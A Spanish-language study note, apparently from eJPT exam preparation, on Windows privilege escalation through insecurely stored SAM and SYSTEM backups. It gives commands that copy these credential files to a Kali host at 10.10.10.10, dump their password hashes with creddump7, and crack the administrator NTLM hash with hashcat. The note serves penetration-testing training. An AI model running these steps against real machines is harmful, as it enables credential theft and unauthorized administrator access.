 - Los archivos SAM y SYSTEM se pueden usar para extraer hashes de contraseñas de usuario. Esta VM ha almacenado de forma insegura backups de los archivos SAM y SYSTEM en el C:\Windows\Repair\ directorio.

- Transfiera los archivos SAM y SYSTEM a su Kali VM:

```
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\   
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```

- En Kali, clone el repositorio creddump7 (el de Kali está desactualizado y no volcará hashes correctamente para Windows 10!) y úselo para volcar los hashes de los archivos SAM y SYSTEM:

```
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM
```

- Rompe el administrador NTLM hash usando hashcat:

```
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

Puede usar la contraseña descifrada para iniciar sesión como administrador usando winexe o PDR.

enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
[[Passwords - Passing the Hash]]
[[Passwords - Registry]]
[[Passwords - Saved Creds]]
[[Generate a Reverse Shell Executable]]

